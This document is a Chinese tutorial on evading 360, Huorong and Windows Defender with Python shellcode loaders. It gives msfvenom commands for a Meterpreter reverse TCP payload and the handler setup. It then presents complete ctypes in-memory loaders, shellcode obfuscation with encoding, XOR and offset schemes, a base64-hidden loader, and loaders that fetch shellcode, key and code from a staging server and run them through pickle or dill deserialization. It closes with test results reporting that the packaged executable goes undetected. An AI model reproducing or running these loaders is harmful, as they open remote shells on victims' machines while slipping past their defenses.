Python免杀入门学习
原创声明：转载本文请标注出处和作者，望尊重作者劳动成果！感谢！
前言：这里主要针对国内主流三大杀软进行免杀测试，python语法简单，开发效率高，适合入门学习，而且免杀效果也还不错。当然免杀是具有时效性的，文章的方法主要记录一下免杀思路。
python环境：python2.7.18(x64)、python3.11.1(x64)
windows环境：windows10、windows11
杀毒软件：360杀毒（全引擎） + 火绒 + Windows Defender
如何加载 shellcode
我们可以选择常用的两款工具（MSF、CS）来生成shellcode，下面的测试案例是使用了MSF的shellcode。
MSF shellcode
1、MSF生成 shellcode
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.128 lport=8080 -f py -b="\x00"

2、设置监听
msfconsole
use exploit/multi/handler/
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 8080
run
Loader 常用模板
所有内存加载器原理都是一个流程：申请可执行内存 -> shellcode写入内存 -> 执行该内存。python调用C需要用到内置库：
ctypes
https://blog.csdn.net/bianchengxueseng/article/details/115262954
https://cloud.tencent.com/developer/section/1370537
https://zhuanlan.zhihu.com/p/145165873
1、python2 / python3，正常线程执行：VirtualAlloc + RtlMoveMemory + CreateThread
# -*- coding: UTF-8 -*-
import ctypes
buf = b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b"
shellcode= bytearray(buf)
#设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
#申请内存
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
#放入shellcode
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr), buf, ctypes.c_int(len(shellcode)))
#创建一个线程从shellcode放置位置首地址开始执行
handle= ctypes.windll.kernel32.CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_uint64(ptr), ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))
#等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
# -*- coding: UTF-8 -*-
import ctypes
buf = b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b"
shellcode = buf
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(rwxpage), ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
2、python2 / python3，函数指针执行：VirtualAlloc + RtlMoveMemory + cast
# -*- coding: UTF-8 -*-
import ctypes
buf = b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b"
shellcode = buf
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(buf), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(rwxpage), ctypes.create_string_buffer(buf), len(buf))
runcode = ctypes.cast(rwxpage, ctypes.CFUNCTYPE(ctypes.c_void_p))
runcode()
3、python2 ，内存复制 + 渐进式加载：VirtualAlloc + ReallocADsMem + VirtualProtect
# -*- coding: UTF-8 -*-
import ctypes
buf = b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b"
shellcode = buf
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 第一次申请的内存，存入shellcode
ptr = ctypes.windll.Activeds.AllocADsMem(len(buf))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr), ctypes.create_string_buffer(buf), len(buf))
# 第二次申请内存，复制第一次申请内存的内容。
ptr2 = ctypes.windll.Activeds.ReallocADsMem(ptr, len(buf), len(buf))
# 渐进式加载模式
ctypes.windll.kernel32.VirtualProtect(ptr2, len(buf), 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr2, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
静态免杀
shellcode 编码加密混淆
思路：用base32 + base16 + hex 进行编码，最后做一次异或加密。
1、python2 / python3 混淆代码：
# -*- coding: UTF-8 -*-
import string
import base64
import random
from sys import version_info
def encrypt(buf, key):
"""shellcode混淆加密"""
shellcode1 = base64.b32encode(buf)
# base16 编码
shellcode2 = base64.b16encode(shellcode1)
# hex编码
if version_info >= (3,0):
shellcode3 = shellcode2.hex() # python3
else:
shellcode3 = shellcode2.encode('hex') # python2
# 设置随机数
random.seed(key)
# 异或加密
shellcode = ''
for i in shellcode3:
shellcode = shellcode + str(ord(i) ^ random.randint(0, 255)) + "."
return shellcode.rstrip('.')
def random_key(length):
"""随机生成6位key"""
numOfNum = random.randint(1, length-1)
numOfLetter = length - numOfNum
slcNum = [random.choice(string.digits) for i in range(numOfNum)]
slcLetter = [random.choice(string.ascii_letters) for i in range(numOfLetter)]
slcChar = slcNum + slcLetter
random.shuffle(slcChar)
getPwd = ''.join([i for i in slcChar])
return getPwd
if __name__ == "__main__":
# shellcode内容
buf = b""
# 随机数key
key = random_key(6)
# 编码加密混淆
data = encrypt(buf, key)
print("key: " + key)
print("shellcode: " + data)

2、python2 / python3 加载代码:
# -*- coding: UTF-8 -*-
import ctypes
import base64
import random
from sys import version_info
def decrypt(code, key):
# 异或解密
random.seed(key)
xor_code = code.split('.')
res_code = ''
for i in xor_code:
res_code = res_code + chr(int(i) ^ random.randint(0, 255))
# 三重解码
if version_info >= (3,0):
shellcode = bytes.fromhex(res_code)
else:
shellcode = res_code.decode('hex')
shellcode = base64.b16decode(shellcode)
shellcode = base64.b32decode(shellcode)
# 返回shellcode
return shellcode
def runcode(shellcode):
# 加载shellcode
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(rwxpage), ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
if __name__ == "__main__":
# 混淆的shellcode
code = ""
# 随机数key
key: str = 'B4s81a'
# 解码
shellcode = decrypt(code, key)
runcode(shellcode)
shellcode 偏移量混淆
思路：通过读取一个shellcode.bin文件的内容，然后将其进行hex编码，因为hex编码是0到9和字母a~f表示的。 所以可以通过遍历hex编码后的shellcode来找到
'0123456789abcdef'对应的下标值，然后生成一个偏移量列表。
1、准备一个shellcode.bin文件
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.128 lport=8080 -f raw -o shellcode.bin

2、python2 / python3 混淆代码：
# -*- coding: UTF-8 -*-
import random
from sys import version_info
# 生成个随机字符，该字符包含0-f即可
key = '0123456789abcdef'
# 将列表中的元素打乱顺序
key_list = list(key)
random.shuffle(key_list)
new_key = ''.join(key_list)
# 读取bin内容，并且做hex编码
with open('shellcode.bin', mode='rb') as f:
if version_info >= (3,0):
shellcode = f.read().hex()
else:
shellcode = f.read().encode('hex')
shellcode_list = []
for i in shellcode:
# 返回索引值
value = new_key.find(i)
shellcode_list.append(value)
print("key: " + new_key)
print("shellcode: " + str(shellcode_list))
3、python2 / python3 加载代码:
# -*- coding: UTF-8 -*-
import ctypes
from sys import version_info
# 随机数key
key = ''
# 偏移量列表
shellcod_list = []
# 还原shellcode
buf = ''
for i in shellcod_list:
buf += key[i]
if version_info >= (3,0):
shellcode = bytearray(bytes.fromhex(buf))
else:
shellcode = bytearray(buf.decode('hex'))
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr), buf, ctypes.c_int(len(shellcode)))
handle= ctypes.windll.kernel32.CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_uint64(ptr), ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
shellcode 远程/本地加载
思路：把编码或加密后的shellcode保存到VPS上，然后用远程方式进行加载。
1、用前面的方法先将shellcode混淆，然后将生成的 shellcode 和 key 分别保存放到VPS上，最后用python开个web服务。
import ctypes
import base64
import random
from sys import version_info
from urllib.request import urlopen
def decrypt(code, key):
# 设置随机数
random.seed(key)
# 异或解密
xor_code = code.split('.')
res_code = ''
for i in xor_code:
res_code = f"{res_code}{chr(int(i) ^ random.randint(0, 255))}"
# 三重解码
if version_info >= (3,0):
shellcode = bytes.fromhex(res_code)
else:
shellcode = res_code.decode('hex')
shellcode = base64.b16decode(shellcode)
shellcode = base64.b32decode(shellcode)
return shellcode
def runcode(shellcode):
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(rwxpage), ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
def get_data(url_shellcode, url_key):
"""远程获取shellcode"""
if version_info >= (3,0):
from urllib.request import urlopen
else:
from urllib2 import urlopen
# 远程加载shellcode, key
key = urlopen(url_key).read().decode()
shellcode = urlopen(url_shellcode).read().decode()
return shellcode, key
if __name__ == "__main__":
url_shellcode = "http://192.168.2.131/shellcode.txt"
url_key = "http://192.168.2.131/key.txt"
# 远程加载
shellcode, key = get_data(url_shellcode, url_key)
# 解码
shellcode = decrypt(shellcode, key)
# 加载shellcode
runcode(shellcode)

2、python3 加载器：
import ctypes
import base64
import random
from sys import version_info
if version_info >= (3,0):
from urllib.request import urlopen
else:
from urllib2 import urlopen
def decrypt(code, key):
# 设置随机数
random.seed(key)
# 异或解密
xor_code = code.split('.')
res_code = ''
for i in xor_code:
res_code = res_code + chr(int(i) ^ random.randint(0, 255))
# 三重解码
if version_info >= (3,0):
shellcode = bytes.fromhex(res_code)
else:
shellcode = res_code.decode('hex')
shellcode = base64.b16decode(shellcode)
shellcode = base64.b32decode(shellcode)
return shellcode
def runcode(shellcode):
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(rwxpage), ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
def get_data(url_shellcode, url_key):
if version_info >= (3,0):
from urllib.request import urlopen
else:
from urllib2 import urlopen
# 远程加载shellcode, key
key = urlopen(url_key).read().decode()
shellcode = urlopen(url_shellcode).read().decode()
return shellcode, key
if __name__ == "__main__":
url_shellcode = "http://192.168.2.131/shellcode.txt"
url_key = "http://192.168.2.131/key.txt"
shellcode, key = get_data(url_shellcode, url_key)
# 解码
shellcode = decrypt(shellcode, key)
# 加载shellcode
runcode(shellcode)
loader 代码混淆
思路：在对shellcode进行混淆的基础上，现在也尝试对loader模块混淆吧。随意采用你喜欢的混淆方法，这里简单采用base64编码。
1、简单对下面的代码做个base64编码：
ctypes.windll.kernel32.VirtualAlloc.restype=ctypes.c_uint64;rwxpage=ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40);ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(rwxpage), ctypes.create_string_buffer(shellcode), len(shellcode));handle=ctypes.windll.kernel32.CreateThread(0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0);ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
2、在线编码

Y3R5cGVzLndpbmRsbC5rZXJuZWwzMi5WaXJ0dWFsQWxsb2MucmVzdHlwZT1jdHlwZXMuY191aW50NjQ7cnd4cGFnZT1jdHlwZXMud2luZGxsLmtlcm5lbDMyLlZpcnR1YWxBbGxvYygwLCBsZW4oc2hlbGxjb2RlKSwgMHgxMDAwLCAweDQwKTtjdHlwZXMud2luZGxsLmtlcm5lbDMyLlJ0bE1vdmVNZW1vcnkoY3R5cGVzLmNfdWludDY0KHJ3eHBhZ2UpLCBjdHlwZXMuY3JlYXRlX3N0cmluZ19idWZmZXIoc2hlbGxjb2RlKSwgbGVuKHNoZWxsY29kZSkpO2hhbmRsZT1jdHlwZXMud2luZGxsLmtlcm5lbDMyLkNyZWF0ZVRocmVhZCgwLCAwLCBjdHlwZXMuY191aW50NjQocnd4cGFnZSksIDAsIDAsIDApO2N0eXBlcy53aW5kbGwua2VybmVsMzIuV2FpdEZvclNpbmdsZU9iamVjdChoYW5kbGUsIC0xKQ==
3、pyhon3 执行代码。
import ctypes
import base64
import random
from sys import version_info
if version_info >= (3,0):
from urllib.request import urlopen
else:
from urllib2 import urlopen
def decrypt(code, key):
# 设置随机数
random.seed(key)
# 异或解密
xor_code = code.split('.')
res_code = ''
for i in xor_code:
res_code = res_code + chr(int(i) ^ random.randint(0, 255))
# 三重解码
if version_info >= (3,0):
shellcode = bytes.fromhex(res_code)
else:
shellcode = res_code.decode('hex')
shellcode = base64.b16decode(shellcode)
shellcode = base64.b32decode(shellcode)
return shellcode
def runcode(shellcode):
loader = "Y3R5cGVzLndpbmRsbC5rZXJuZWwzMi5WaXJ0dWFsQWxsb2MucmVzdHlwZT1jdHlwZXMuY191aW50NjQ7cnd4cGFnZT1jdHlwZXMud2luZGxsLmtlcm5lbDMyLlZpcnR1YWxBbGxvYygwLCBsZW4oc2hlbGxjb2RlKSwgMHgxMDAwLCAweDQwKTtjdHlwZXMud2luZGxsLmtlcm5lbDMyLlJ0bE1vdmVNZW1vcnkoY3R5cGVzLmNfdWludDY0KHJ3eHBhZ2UpLCBjdHlwZXMuY3JlYXRlX3N0cmluZ19idWZmZXIoc2hlbGxjb2RlKSwgbGVuKHNoZWxsY29kZSkpO2hhbmRsZT1jdHlwZXMud2luZGxsLmtlcm5lbDMyLkNyZWF0ZVRocmVhZCgwLCAwLCBjdHlwZXMuY191aW50NjQocnd4cGFnZSksIDAsIDAsIDApO2N0eXBlcy53aW5kbGwua2VybmVsMzIuV2FpdEZvclNpbmdsZU9iamVjdChoYW5kbGUsIC0xKQ=="
exec(base64.b64decode(loader))
class Runcode(object):
def __init__(self, sc) -> None:
global shellcode
shellcode = sc
def __reduce__(self):
http = urllib3.PoolManager()
response = http.request('GET', 'http://192.168.2.131/code2.txt')
code = response.data.decode('utf-8')
code = base64.b64decode(code)
return (exec, (code,))
def get_data(url_shellcode, url_key):
"""远程获取shellcode"""
# 远程加载shellcode, key
key = urlopen(url_key).read().decode()
shellcode = urlopen(url_shellcode).read().decode()
return shellcode, key
if __name__ == "__main__":
url_shellcode = "http://192.168.2.131/shellcode.txt"
url_key = "http://192.168.2.131/key.txt"
# 远程加载
shellcode, key = get_data(url_shellcode, url_key)
# 解码
shellcode = decrypt(shellcode, key)
# 加载shellcode
runcode(shellcode)
反序列化远程加载
思路：有趣的pickle库，把shellcode执行代码保存到txt中，然后利用反序列化执行文件中的代码。
1、手动将混淆后的loader代码保存到 loader.txt中：

2、python3 反序列化加载：
import ctypes
import base64
import random
import pickle
from sys import version_info
if version_info >= (3,0):
from urllib.request import urlopen
else:
from urllib2 import urlopen
def decrypt(code, key):
# 设置随机数
random.seed(key)
# 异或解密
xor_code = code.split('.')
res_code = ''
for i in xor_code:
res_code = res_code + chr(int(i) ^ random.randint(0, 255))
# 三重解码
if version_info >= (3,0):
shellcode = bytes.fromhex(res_code)
else:
shellcode = res_code.decode('hex')
shellcode = base64.b16decode(shellcode)
shellcode = base64.b32decode(shellcode)
return shellcode
class Runcode(object):
def __init__(self, sc, ld):
global shellcode
global loader
loader = ld
shellcode = sc
def __reduce__(self):
return (exec, (loader,))
def get_data(url_shellcode, url_key, url_loader):
"""远程获取shellcode"""
# 远程加载shellcode, key
key = urlopen(url_key).read().decode()
shellcode = urlopen(url_shellcode).read().decode()
loader = urlopen(url_loader).read().decode()
loader = base64.b64decode(loader)
return shellcode, key, loader
if __name__ == "__main__":
url_shellcode = "http://192.168.2.131/shellcode.txt"
url_key = "http://192.168.2.131/key.txt"
url_loader = "http://192.168.2.131/loader.txt"
# 远程加载
shellcode, key, loader = get_data(url_shellcode, url_key, url_loader)
# 解码
shellcode = decrypt(shellcode, key)
# 加载shellcode
res = pickle.dumps(Runcode(shellcode, loader))
pickle.loads(res)
python2 反序列化加载：
注意：在python2中没办法使用反序列化调用exec，不过可以用execfile代替。因为pickle没办法传入内置类，可以改用dill：
pip install dill
# -*- coding: UTF-8 -*-
import ctypes
import base64
import random
import dill
from sys import version_info
if version_info >= (3,0):
from urllib.request import urlopen
else:
from urllib2 import urlopen
def decrypt(code, key):
# 设置随机数
random.seed(key)
# 异或解密
xor_code = code.split('.')
res_code = ''
for i in xor_code:
res_code = res_code + chr(int(i) ^ random.randint(0, 255))
# 三重解码
if version_info >= (3,0):
shellcode = bytes.fromhex(res_code)
else:
shellcode = res_code.decode('hex')
shellcode = base64.b16decode(shellcode)
shellcode = base64.b32decode(shellcode)
return shellcode
class Runcode(object):
def __init__(self, sc, ld):
global shellcode
global loader
loader = ld
shellcode = sc
def __reduce__(self):
with open("execfile.ini", mode="w") as f:
f.write(loader)
return (execfile , ('execfile.ini', {'shellcode':shellcode, 'ctypes':ctypes}))
def get_data(url_shellcode, url_key, url_loader):
"""远程获取shellcode"""
# 远程加载shellcode, key
key = urlopen(url_key).read().decode()
shellcode = urlopen(url_shellcode).read().decode()
loader = urlopen(url_loader).read().decode()
loader = base64.b64decode(loader)
return shellcode, key, loader
if __name__ == "__main__":
url_shellcode = "http://192.168.2.131/shellcode.txt"
url_key = "http://192.168.2.131/key.txt"
url_loader = "http://192.168.2.131/loader.txt"
# 远程加载
shellcode, key, loader = get_data(url_shellcode, url_key, url_loader)
# 解码
shellcode = decrypt(shellcode, key)
# 加载shellcode
res = dill.dumps(Runcode(shellcode, loader))
dill.loads(res)
免杀实例
免杀思路：结合上面的部分知识点打一个组合拳，采用 base64 + hex + RC4 将shellcode混淆，然后将shellcode、key、loader三个部分分离，最后使用远程加载的方式来执行。 测试时间：2022.12.16 项目地址：https://github.com/jammny/Jbypass
1、先在encrypt.py文件中，替换你的shellcode：

2、然后生成混淆文件，并开启http服务：python2 encrypt.py

3、替换Jbypass.py文件中的地址：

4、python2打包：pyinstaller.exe -F -w .\Jbypass.py
5、火绒静态和动态测试：显然火绒无压力。

6、360杀毒（全引擎），静态和动态测试：显然360也无压力。


7、Windows Defender 静态和动态测试：静态无压力，可以正常上线，但是执行shell命令被杀。
